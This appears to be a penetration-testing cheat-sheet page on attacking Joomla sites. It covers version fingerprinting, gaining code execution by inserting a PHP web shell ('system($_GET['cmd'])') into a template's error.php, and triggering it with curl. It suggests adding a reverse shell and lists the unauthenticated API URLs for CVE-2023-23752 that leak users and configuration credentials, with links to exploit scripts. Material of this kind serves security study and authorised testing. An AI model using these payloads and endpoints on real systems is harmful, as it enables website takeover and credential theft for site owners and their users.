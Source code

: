 ```yaml
---
title: Joomla 🦁
---
```

## Check Version

- In **/administrator/manifests/files/joomla.xml** you can see the version.
- In **/language/en-GB/en-GB.xml** you can get the version of Joomla.
- In **plugins/system/cache/cache.xml** you can see an approximate version.

- Yo can also do it automatically using [droopscan](https://github.com/SamJoan/droopescan):

```shell
droopescan scan joomla --url http://joomla-site.local/
```

## Joomla database

- Check the [Official documentation](https://docs.joomla.org/Tables)

## RCE

If you managed to get **admin credentials** you can **RCE inside of it** by adding a snippet of **PHP code** to gain **RCE**. We can do this by **customizing** a **template**.

1. **Click** on `Templates` on the bottom left under `Configuration` to pull up the templates menu.
2. **Click** on a **template** name. Let's choose `protostar` under the `Template` column header. This will bring us to the `Templates: Customise` page.

![](Pasted%20image%2020240530180012.png)

3. Finally, you can click on a page to pull up the **page source**. Let's choose the `error.php` page. We'll add a **PHP one-liner to gain code execution** as follows:

 ```php
 <?php system($_GET['cmd']); ?>
 ```

4. **Save & Close**
5. `curl -s http://joomla-site.local/templates/protostar/error.php?cmd=id`


>[!Note]
>You can also add in that code a reverse shell like Pentest Monkey one
>Make sure to check [Reverse shells 👾](reverse_shells.md)

### Another way

- Modify the `index.php` adding there your reverse shell

## Information disclosure

Versions From 4.0.0 to 4.2.7 are vulnerable to Unauthenticated information disclosure (CVE-2023-23752) that will dump creds and other information.

- Users: `http://<host>/api/v1/users?public=true`
- Config File: `http://<host>/api/index.php/v1/config/application?public=true`

**MSF Module**: `scanner/http/joomla_api_improper_access_checks` or ruby script: [51334](https://www.exploit-db.com/exploits/51334)
- [Github exploit & instructions](https://github.com/Acceis/exploit-CVE-2023-23752)

